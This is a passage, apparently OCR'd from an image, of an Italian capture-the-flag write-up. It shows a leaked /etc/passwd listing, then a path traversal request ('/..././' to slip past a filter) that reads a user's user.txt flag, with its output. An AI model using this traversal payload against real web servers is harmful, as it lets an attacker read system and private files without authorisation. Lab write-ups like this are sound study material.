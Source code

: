 geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash

--> Abbiamo scoperto parecchi user però noi ora ci interessa particolarmente l'utente "michael"

---------------------------

Ora possiamo direttamente scoprire il flag user.txt injectando:
GET /index.php?page=/..././..././..././..././home/michael/user.txt HTTP/1.1

Output:
5e4cee92f74ebf9b05da24a7482b067c

--------------------
